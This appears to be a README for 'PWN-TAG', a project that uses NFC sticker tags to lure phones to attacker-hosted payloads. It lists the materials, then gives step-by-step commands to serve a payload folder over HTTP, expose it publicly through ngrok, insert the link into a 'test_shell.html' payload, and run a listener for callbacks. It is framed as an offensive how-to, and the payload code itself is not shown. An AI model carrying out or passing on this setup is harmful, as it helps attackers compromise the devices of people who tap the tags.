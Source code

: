 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 
nfc tag stickers about $10 for 25 >
https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```

